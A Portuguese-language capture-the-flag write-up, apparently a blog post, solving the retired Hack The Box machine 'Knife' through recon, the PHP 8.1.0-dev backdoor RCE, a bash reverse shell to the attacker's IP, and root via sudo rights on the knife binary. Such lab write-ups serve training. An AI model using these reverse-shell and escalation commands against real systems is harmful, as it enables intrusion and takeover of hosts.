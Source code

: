 ```yaml
---
title: HTB Knife Writeup
author: Hastur
date: 2021-09-03 21:00:00 -0300
categories: [Writeups, Hack The Box - Retired]
tags: [HTB]
thumb: "/htb/htb-knife-logo.png"
---
```


<img src="/htb/htb-knife-logo.png">

<br>


| Nome | Knife       |
|------|-------------|
|IP    | 10.10.10.242|
|Pontos| 20          |
|OS    | Linux       |
|Nível | Easy        |

<br>

## RECON

### Nmap
```
┌──(hastur㉿hastur)-[~]
└─$ sudo nmap -v -sCV -p- -Pn -O 10.10.10.242 --min-rate=512 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea

```
Encontramos somente as portas 22 e 80 abertas. Vamos começar pela porta 80.

### Porta 80

<img src="/htb/htb-knife-1.png">

Apenas uma página simples sem links para seguir.

A varredura com gobuster também não trouxe nada relevante.

Vamos tentar o whatweb para obter mais informações.

```
┌──(hastur㉿hastur)-[~]
└─$ whatweb http://10.10.10.242/
http://10.10.10.242/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Conseguimos identificar que o server roda em PHP na versão "PHP/8.1.0-dev", vamos procurar algum exploit.

```
┌──(hastur㉿hastur)-[~]
└─$ searchsploit "PHP 8.1.0-dev" 
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                       | php/webapps/49933.py
```

Vamos copiar o exploit para nosso diretório e nomeá-lo como "exploit.py".

```
┌──(hastur㉿hastur)-[~/knife]
└─$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ ls -la
total 84
drwxr-xr-x  20 root root  4096 May 18 13:25 .
drwxr-xr-x  20 root root  4096 May 18 13:25 ..
lrwxrwxrwx   1 root root     7 Feb  1  2021 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Jul 23 13:37 boot
drwxr-xr-x   2 root root  4096 May  6 14:10 cdrom
drwxr-xr-x  19 root root  4020 Sep  3 04:33 dev
drwxr-xr-x  99 root root  4096 May 18 13:25 etc
drwxr-xr-x   3 root root  4096 May  6 14:44 home
lrwxrwxrwx   1 root root     7 Feb  1  2021 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Feb  1  2021 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Feb  1  2021 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Feb  1  2021 libx32 -> usr/libx32
drwx------   2 root root 16384 May  6 14:08 lost+found
drwxr-xr-x   2 root root  4096 May 18 13:20 media
drwxr-xr-x   2 root root  4096 May 18 13:20 mnt
drwxr-xr-x   5 root root  4096 May 18 13:20 opt
dr-xr-xr-x 358 root root     0 Sep  3 04:32 proc
drwx------   7 root root  4096 May 18 13:26 root
drwxr-xr-x  27 root root   820 Sep  3 16:47 run
lrwxrwxrwx   1 root root     8 Feb  1  2021 sbin -> usr/sbin
drwxr-xr-x   6 root root  4096 May 18 13:20 snap
drwxr-xr-x   2 root root  4096 Feb  1  2021 srv
dr-xr-xr-x  13 root root     0 Sep  3 04:32 sys
drwxrwxrwt  16 root root 12288 Sep  4 00:00 tmp
drwxr-xr-x  15 root root  4096 May 18 13:20 usr
drwxr-xr-x  14 root root  4096 May  9 04:22 var

$ 

```

Ao executarmos o exploit, temos uma versão bem resumida de RCE em forma de bash, esta versão do PHP possui uma falha de segurança no user-agent que permite execussão de código remoto.

Para podermos explorar de forma efetiva, precisamos de um tty shell, vamos iniciar um netcat ouvindo a conexão reversa.

```
┌──(hastur㉿hastur)-[~/knife]
└─$ nc -vlnp 8443
listening on [any] 8443 ...
```

Agora vamos enviar um payload no terminal do RCE.

```
┌──(hastur㉿hastur)-[~/knife]
└─$ python3 exploit.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/ 
Can't acces tty; job crontol turned off.
$ /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.130/8443 0>&1"
```

Checando no netcat, conseguimos um shell.

<img src="/htb/htb-knife-2.png">

E dentro do diretório do usuário "james", conseguimos flag do usuário.

<img src="/htb/htb-knife-3.png">
<br>
## ESCALAÇÃO DE PRIVILÉGIOS

Já dentro do server, vamos fazer a enumeração local, com o comando `sudo -l`, encontramos algo interessante:

<img src="/htb/htb-knife-4.png">

O usuário tem permissão de executar `/usr/bin/knife` com privilégios de administrador sem uso de senha, vamos enumerar este binário.

<img src="/htb/htb-knife-5.png">

Quando enumeramos o diretório real do binário, podemos ver que se trata de um diretório de instalação do ruby.

<img src="/htb/htb-knife-6.png">

Ao tentar executar o programa, ele nos retora uma grande lista de opções de argumento, entre elas uma bem interessante:

<img src="/htb/htb-knife-7.png">

Isso significa que podemos executar scripts em ruby, vamos voltar para o diretorio do usuário james e criar um script.

```
james@knife:~$ pwd                                   
pwd
/home/james
james@knife:~$ echo 'exec "/bin/bash -i"' > hastur.rb
```
Ao executar `sudo /usr/bub/knife exec hastur.rb` temos nosso shell com root e podemos enumerar a flag.

<img src="/htb/htb-knife-8.png">

E comprometemos o server!!
<br>

<img src="/htb/hackerman.gif">
<br>
### Referências

| Vulnerabilidade                           | Url                                                                                                             |
|-------------------------------------------|-----------------------------------------------------------------------------------------------------------------|
| PHP 8.1.0-dev development version backdoor| [https://github.com/flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)|


